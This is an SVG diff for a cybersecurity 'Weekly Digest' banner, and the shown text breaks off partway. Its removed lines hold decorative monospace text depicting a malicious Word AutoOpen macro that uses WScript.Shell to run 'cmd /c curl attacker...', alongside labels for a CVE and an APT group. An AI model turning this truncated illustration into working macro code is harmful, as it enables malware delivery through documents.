

- <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1200 630" width="1200" height="630">
+ <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1200 630">
  <defs>
-     <linearGradient id="bg" x1="0%" y1="0%" x2="100%" y2="100%">
-       <stop offset="0%" style="stop-color:#0a0a1a" />
-       <stop offset="50%" style="stop-color:#1a0808" />
-       <stop offset="100%" style="stop-color:#0a0f1a" />
+     <linearGradient id="bgGradient" x1="0%" y1="0%" x2="100%" y2="100%">
+       <stop offset="0%" style="stop-color:#f8fafc" />
+       <stop offset="40%" style="stop-color:#f1f5f9" />
+       <stop offset="100%" style="stop-color:#e2e8f0" />
    </linearGradient>
-     <linearGradient id="docGrad" x1="0%" y1="0%" x2="0%" y2="100%">
-       <stop offset="0%" style="stop-color:#1e1e3e" />
-       <stop offset="100%" style="stop-color:#12122a" />
+     <linearGradient id="securityGradient" x1="0%" y1="0%" x2="100%" y2="100%">
+       <stop offset="0%" style="stop-color:#dc2626" />
+       <stop offset="100%" style="stop-color:#991b1b" />
    </linearGradient>
-     <linearGradient id="cloudGrad" x1="0%" y1="0%" x2="0%" y2="100%">
-       <stop offset="0%" style="stop-color:#1a2d45" />
-       <stop offset="100%" style="stop-color:#0f1c2e" />
+     <linearGradient id="accentGradient" x1="0%" y1="0%" x2="100%" y2="0%">
+       <stop offset="0%" style="stop-color:#3b82f6" />
+       <stop offset="33%" style="stop-color:#8b5cf6" />
+       <stop offset="66%" style="stop-color:#ec4899" />
+       <stop offset="100%" style="stop-color:#f59e0b" />
    </linearGradient>
-     <linearGradient id="scanBeam" x1="0%" y1="0%" x2="100%" y2="0%">
-       <stop offset="0%" style="stop-color:#ef4444" stop-opacity="0.05" />
-       <stop offset="100%" style="stop-color:#ef4444" stop-opacity="0.25" />
+     <linearGradient id="cardGradient" x1="0%" y1="0%" x2="100%" y2="100%">
+       <stop offset="0%" style="stop-color:#ffffff" />
+       <stop offset="100%" style="stop-color:#f8fafc" />
    </linearGradient>
-     <linearGradient id="defenseBeam" x1="100%" y1="0%" x2="0%" y2="0%">
-       <stop offset="0%" style="stop-color:#3b82f6" stop-opacity="0.05" />
-       <stop offset="100%" style="stop-color:#3b82f6" stop-opacity="0.25" />
+     <linearGradient id="fireGradient" x1="0%" y1="100%" x2="0%" y2="0%">
+       <stop offset="0%" style="stop-color:#dc2626" />
+       <stop offset="50%" style="stop-color:#f59e0b" />
+       <stop offset="100%" style="stop-color:#fbbf24" />
    </linearGradient>
-     <linearGradient id="badgeGrad" x1="0%" y1="0%" x2="100%" y2="0%">
-       <stop offset="0%" style="stop-color:#dc2626" />
-       <stop offset="100%" style="stop-color:#ef4444" />
-     </linearGradient>
-     <filter id="glow1">
-       <feGaussianBlur stdDeviation="25" result="blur" />
+     <filter id="glow" x="-50%" y="-50%" width="200%" height="200%">
+       <feGaussianBlur stdDeviation="4" result="blur" />
      <feMerge>
        <feMergeNode in="blur" />
        <feMergeNode in="SourceGraphic" />
      </feMerge>
    </filter>
-     <filter id="glow2">
-       <feGaussianBlur stdDeviation="12" result="blur" />
+     <filter id="strongGlow" x="-100%" y="-100%" width="300%" height="300%">
+       <feGaussianBlur stdDeviation="8" result="blur" />
      <feMerge>
+         <feMergeNode in="blur" />
        <feMergeNode in="blur" />
        <feMergeNode in="SourceGraphic" />
      </feMerge>
    </filter>
-     <filter id="glow3">
-       <feGaussianBlur stdDeviation="5" result="blur" />
-       <feMerge>
-         <feMergeNode in="blur" />
-         <feMergeNode in="SourceGraphic" />
-       </feMerge>
+     <filter id="shadow" x="-20%" y="-20%" width="140%" height="140%">
+       <feDropShadow dx="0" dy="6" stdDeviation="12" flood-color="#000" flood-opacity="0.4" />
    </filter>
-     <filter id="textGlow">
-       <feGaussianBlur stdDeviation="8" result="blur" />
-       <feMerge>
-         <feMergeNode in="blur" />
-         <feMergeNode in="SourceGraphic" />
-       </feMerge>
+     <filter id="innerGlow">
+       <feGaussianBlur in="SourceAlpha" stdDeviation="3" result="blur" />
+       <feOffset in="blur" dx="0" dy="0" />
+       <feComposite in2="SourceAlpha" operator="arithmetic" k2="-1" k3="1" />
+       <feColorMatrix type="matrix" values="0 0 0 0 1 0 0 0 0 1 0 0 0 0 1 0 0 0 0.5 0" />
+       <feBlend in2="SourceGraphic" />
    </filter>
  </defs>
-   <rect width="1200" height="630" fill="url(#bg)" />
-   <circle cx="220" cy="260" r="210" fill="#ef4444" opacity="0.09" filter="url(#glow1)" />
-   <circle cx="980" cy="290" r="200" fill="#3b82f6" opacity="0.09" filter="url(#glow1)" />
-   <circle cx="600" cy="270" r="180" fill="#7c3aed" opacity="0.05" filter="url(#glow1)" />
-   <text x="45" y="80" font-family="monospace" font-size="13" fill="#ef4444" opacity="0.13">office.exploit(macro)</text>
-   <text x="870" y="72" font-family="monospace" font-size="13" fill="#3b82f6" opacity="0.13">apt.kimwolf.c2()</text>
-   <text x="40" y="548" font-family="monospace" font-size="13" fill="#ef4444" opacity="0.12">aws.g7e.deploy()</text>
-   <text x="870" y="548" font-family="monospace" font-size="13" fill="#3b82f6" opacity="0.12">kimi.k25.analyze()</text>
-   <rect x="40" y="32" width="170" height="32" rx="16" fill="url(#badgeGrad)" opacity="0.9" />
-   <text x="125" y="52" font-family="'Segoe UI',Arial,sans-serif" font-size="12" font-weight="bold" fill="white" text-anchor="middle">WEEKLY DIGEST</text>
-   <text x="1160" y="52" font-family="'Segoe UI',Arial,sans-serif" font-size="13" fill="#94a3b8" text-anchor="end">January 27, 2026</text>
-   <rect x="60" y="88" width="1080" height="448" rx="14" fill="#06060e" stroke="#1a0808" stroke-width="1.5" opacity="0.8" />
-   <rect x="88" y="106" width="270" height="358" rx="8" fill="url(#docGrad)" stroke="#2a1a3e" stroke-width="1" />
-   <rect x="88" y="106" width="270" height="44" rx="8" fill="#2b2b5a" />
-   <rect x="88" y="128" width="270" height="22" fill="#2b2b5a" />
-   <rect x="104" y="114" width="30" height="28" rx="4" fill="#2563eb" />
-   <text x="119" y="133" font-family="Arial" font-size="16" font-weight="bold" fill="white" text-anchor="middle">W</text>
-   <text x="142" y="128" font-family="'Segoe UI',Arial,sans-serif" font-size="11" fill="#93c5fd">Report_Q1.docx</text>
-   <text x="142" y="141" font-family="'Segoe UI',Arial,sans-serif" font-size="9" fill="#64748b">Microsoft Word - Protected View</text>
-   <rect x="104" y="162" width="236" height="8" rx="2" fill="#4a4a7a" opacity="0.55" />
-   <rect x="104" y="178" width="196" height="8" rx="2" fill="#4a4a7a" opacity="0.45" />
-   <rect x="104" y="194" width="216" height="8" rx="2" fill="#4a4a7a" opacity="0.40" />
-   <rect x="98" y="210" width="248" height="76" rx="4" fill="#ef4444" opacity="0.14" stroke="#ef4444" stroke-width="1" stroke-opacity="0.5" />
-   <text x="106" y="226" font-family="monospace" font-size="10" fill="#f87171">Sub AutoOpen()</text>
-   <text x="106" y="242" font-family="monospace" font-size="10" fill="#fca5a5">  CreateObject("WScript.Shell")</text>
-   <text x="106" y="258" font-family="monospace" font-size="10" fill="#fca5a5">  .Run("cmd /c curl attacker...")</text>
-   <text x="106" y="274" font-family="monospace" font-size="10" fill="#f87171">End Sub</text>
-   <rect x="106" y="290" width="110" height="18" rx="3" fill="#ef4444" opacity="0.9" />
-   <text x="161" y="303" font-family="'Segoe UI',Arial,sans-serif" font-size="10" fill="white" text-anchor="middle">MACRO EXPLOIT</text>
-   <rect x="104" y="318" width="200" height="8" rx="2" fill="#4a4a7a" opacity="0.45" />
-   <rect x="104" y="334" width="170" height="8" rx="2" fill="#4a4a7a" opacity="0.38" />
-   <rect x="104" y="350" width="190" height="8" rx="2" fill="#4a4a7a" opacity="0.35" />
-   <rect x="104" y="366" width="150" height="8" rx="2" fill="#4a4a7a" opacity="0.30" />
-   <rect x="104" y="388" width="236" height="28" rx="5" fill="#1a0a1a" stroke="#ef4444" stroke-width="1" />
-   <text x="222" y="406" font-family="monospace" font-size="11" fill="#f87171" text-anchor="middle">CVE-2026-0142 | CVSS 9.8</text>
-   <text x="223" y="446" font-family="'Segoe UI',Arial,sans-serif" font-size="14" font-weight="bold" fill="#93c5fd" text-anchor="middle">MS Office</text>
-   <text x="223" y="462" font-family="'Segoe UI',Arial,sans-serif" font-size="11" fill="#64748b" text-anchor="middle">Zero-Day Exploit</text>
-   <polygon points="358,250 490,220 490,370 358,340" fill="url(#scanBeam)" opacity="0.8" />
-   <line x1="358" y1="265" x2="480" y2="232" stroke="#ef4444" stroke-width="2" opacity="0.7" filter="url(#glow3)" />
-   <line x1="358" y1="290" x2="480" y2="290" stroke="#ef4444" stroke-width="2.5" opacity="0.85" filter="url(#glow3)" />
-   <line x1="358" y1="315" x2="480" y2="348" stroke="#ef4444" stroke-width="2" opacity="0.7" filter="url(#glow3)" />
-   <polygon points="468,224 488,232 468,240" fill="#ef4444" opacity="0.85" />
-   <polygon points="468,282 488,290 468,298" fill="#ef4444" opacity="0.9" filter="url(#glow3)" />
-   <polygon points="468,340 488,348 468,356" fill="#ef4444" opacity="0.85" />
-   <text x="415" y="272" font-family="monospace" font-size="10" fill="#f87171" text-anchor="middle">EXPLOIT CHAIN</text>
-   <circle cx="600" cy="283" r="118" fill="#0a0006" stroke="#ef4444" stroke-width="1.5" filter="url(#glow2)" />
-   <circle cx="600" cy="283" r="118" fill="#ef4444" opacity="0.04" />
-   <path d="M600,200 Q640,210 660,240 Q670,265 660,295 Q650,325 630,340 Q615,355 600,358 Q585,355 570,340 Q550,325 540,295 Q530,265 540,240 Q560,210 600,200Z" fill="#150008" />
-   <polygon points="555,222 536,172 578,215" fill="#200010" />
-   <polygon points="645,222 664,172 622,215" fill="#200010" />
-   <polygon points="557,214 543,185 576,208" fill="#ef4444" opacity="0.35" />
-   <polygon points="643,214 657,185 624,208" fill="#ef4444" opacity="0.35" />
-   <circle cx="577" cy="272" r="12" fill="#ef4444" opacity="0.9" filter="url(#glow3)" />
-   <circle cx="623" cy="272" r="12" fill="#ef4444" opacity="0.9" filter="url(#glow3)" />
-   <circle cx="577" cy="272" r="6" fill="#fca5a5" />
-   <circle cx="623" cy="272" r="6" fill="#fca5a5" />
-   <ellipse cx="600" cy="310" rx="36" ry="26" fill="#100004" />
-   <ellipse cx="600" cy="302" rx="9" ry="6" fill="#ef4444" opacity="0.7" />
-   <polygon points="590,326 594,342 598,326" fill="#e2e8f0" opacity="0.65" />
-   <polygon points="602,326 606,342 610,326" fill="#e2e8f0" opacity="0.65" />
-   <rect x="518" y="408" width="164" height="28" rx="6" fill="#150008" stroke="#ef4444" stroke-width="1.5" />
-   <text x="600" y="426" font-family="'Segoe UI',Arial,sans-serif" font-size="13" font-weight="bold" fill="#f87171" text-anchor="middle">APT: KIMWOLF</text>
-   <text x="600" y="450" font-family="'Segoe UI',Arial,sans-serif" font-size="11" fill="#64748b" text-anchor="middle">C2 Infrastructure Active</text>
-   <rect x="480" y="120" width="240" height="44" rx="8" fill="#100f28" stroke="#7c3aed" stroke-width="1" />
-   <circle cx="506" cy="142" r="14" fill="#3b0764" />
-   <text x="506" y="147" font-family="Arial" font-size="12" font-weight="bold" fill="#c4b5fd" text-anchor="middle">K</text>
-   <text x="528" y="135" font-family="'Segoe UI',Arial,sans-serif" font-size="12" font-weight="bold" fill="#a78bfa">Kimi K25 AI</text>
-   <text x="528" y="151" font-family="monospace" font-size="10" fill="#6d28d9">Threat Intelligence Layer</text>
-   <polygon points="842,250 710,220 710,370 842,340" fill="url(#defenseBeam)" opacity="0.8" />
-   <line x1="842" y1="265" x2="720" y2="232" stroke="#3b82f6" stroke-width="2" opacity="0.7" filter="url(#glow3)" />
-   <line x1="842" y1="290" x2="720" y2="290" stroke="#3b82f6" stroke-width="2.5" opacity="0.85" filter="url(#glow3)" />
-   <line x1="842" y1="315" x2="720" y2="348" stroke="#3b82f6" stroke-width="2" opacity="0.7" filter="url(#glow3)" />
-   <polygon points="732,224 712,232 732,240" fill="#3b82f6" opacity="0.85" />
-   <polygon points="732,282 712,290 732,298" fill="#3b82f6" opacity="0.9" filter="url(#glow3)" />
-   <polygon points="732,340 712,348 732,356" fill="#3b82f6" opacity="0.85" />
-   <text x="785" y="272" font-family="monospace" font-size="10" fill="#60a5fa" text-anchor="middle">DETECTION</text>
-   <circle cx="600" cy="168" r="6" fill="#fbbf24" opacity="0.9" filter="url(#glow3)" />
-   <line x1="590" y1="158" x2="600" y2="168" stroke="#fbbf24" stroke-width="2" opacity="0.8" />
-   <line x1="610" y1="158" x2="600" y2="168" stroke="#fbbf24" stroke-width="2" opacity="0.8" />
-   <line x1="600" y1="155" x2="600" y2="168" stroke="#fbbf24" stroke-width="1.5" opacity="0.7" />
-   <text x="600" y="150" font-family="monospace" font-size="9" fill="#fbbf24" text-anchor="middle">CLASH</text>
-   <rect x="842" y="106" width="270" height="358" rx="8" fill="url(#cloudGrad)" stroke="#1a2d45" stroke-width="1" />
